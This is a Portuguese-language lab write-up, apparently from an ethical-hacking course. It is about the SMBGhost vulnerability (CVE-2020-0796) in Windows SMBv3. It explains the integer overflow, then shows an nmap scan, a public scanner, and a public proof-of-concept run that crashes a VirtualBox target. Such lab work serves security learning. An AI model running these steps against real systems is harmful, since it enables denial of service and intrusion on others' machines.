 # CVE‑2020‑0796

O **CVE‑2020‑0796**, também conhecido como **SMBGhost**, é uma vulnerabilidade crítica que afeta o protocolo **SMBv3 (Server Message Block 3.1.1)** em versões específicas do Windows.

Trata-se de uma falha de **execução remota de código (RCE)**, permitindo que um atacante não autenticado possa enviar pacotes especialmente malformados ao sistema alvo, explorando a forma como o SMBv3 lida com compressão de pacotes.

A gravidade é avaliada como **10.0 (Crítica)** na escala CVSS v3, significando impacto máximo e sem necessidade de autenticação.

### Sistemas afetados

* **Windows 10 (versões 1903 e 1909)**: 32‑bit, x64 e ARM64
* **Windows Server (1903 e 1909)** — especialmente em instalações Server Core.

### Como funciona a exploração?

A vulnerabilidade ocorre devido a um **buffer overflow** causado por um **integer overflow**. O servidor (ou cliente) calcula erroneamente o tamanho do buffer com base em dados malformados (como `OriginalSize = 0xFFFFFFFF` e um `Offset` elevado), resultando na alocação de um buffer muito pequeno. Quando os dados são descomprimidos, ocorre sobrecarga de memória — levando potencialmente a execução de código remoto ou falha do sistema (BSOD).

* A ameaça é especialmente séria porque é **wormable**, ou seja, pode se propagar automaticamente entre sistemas vulneráveis — em estilo semelhante ao ransomware WannaCry.
* Foram publicados **códigos proof-of-concept (PoCs)** que exploram essa vulnerabilidade, inclusive através de ferramentas como o Metasploit.

## Verificando se o alvo tem a vunerabilidade

Verificando as portas abertas da máquina alvo
```
$ nmap -sS 192.168.1.39
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-29 22:23 -03
Nmap scan report for 192.168.1.39
Host is up (0.00030s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 08:00:27:15:FF:CF (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 18.79 seconds
```
**Busca no Google:** `CVE‑2020‑0796 github`

Encontramos um scanner para vunerabilidade<br>
[Scanner](https://github.com/ButrintKomoni/cve-2020-0796)

### Copiando o Scanner
```
$ git clone https://github.com/ButrintKomoni/cve-2020-0796
Cloning into 'cve-2020-0796'...
remote: Enumerating objects: 21, done.
remote: Counting objects: 100% (21/21), done.
remote: Compressing objects: 100% (19/19), done.
remote: Total 21 (delta 3), reused 11 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (21/21), 5.74 KiB | 5.74 MiB/s, done.
Resolving deltas: 100% (3/3), done.
```
`$ cd cve-2020-0796`
```
$ ls
cve-2020-0796-scanner.py  README.md
```
### Executando o scanner
```
$ python3 cve-2020-0796-scanner.py 192.168.1.39
Vulnerable
```
**Conclusão:** A máquina alvo está vunerável

## Ataque - crash da máquina alvo

A pesquisa no Google nos fornece um ataque que 'derruba' a OS da máquina alvo.<br>
[Ataque](https://github.com/jiansiting/CVE-2020-0796)

### Copiando o ataque
```
$ git clone https://github.com/jiansiting/CVE-2020-0796
Cloning into 'CVE-2020-0796'...
remote: Enumerating objects: 10, done.
remote: Counting objects: 100% (10/10), done.
remote: Compressing objects: 100% (8/8), done.
remote: Total 10 (delta 1), reused 10 (delta 1), pack-reused 0 (from 0)
Receiving objects: 100% (10/10), 406.04 KiB | 4.95 MiB/s, done.
Resolving deltas: 100% (1/1), done.
```
`$ cd CVE-2020-0796`
```
$ ls
cve-2020-0796.py  demo.gif  README.md
```
### Executando o ataque
```
$ python3 cve-2020-0796.py 192.168.1.39
***********************
*  CVE-2020-0796 PoC  *
*  By Jiansiting      *
***********************
Traceback (most recent call last):
  File "/home/OpsShadow/Documentos/White Hat/CVE-2020-0796/cve-2020-0796.py", line 111, in <module>
    send_compressed(sock, "JST" * 100)
    ~~~~~~~~~~~~~~~^^^^^^^^^^^^^^^^^^^
  File "/home/OpsShadow/Documentos/White Hat/CVE-2020-0796/cve-2020-0796.py", line 98, in send_compressed
    sock.recv(1000)
    ~~~~~~~~~^^^^^^
TimeoutError: timed out
```
### Resultado
Crash na máquina alvo.

![Crash](https://github.com/ops-shadow/Complete-Ethical-Hacking-Bootcamp/blob/efcc96552659d38513b7e63142cea1f8ceb58a37/5%20-%20Windows%2010%20-%20SMBGhost/crash_window.png)



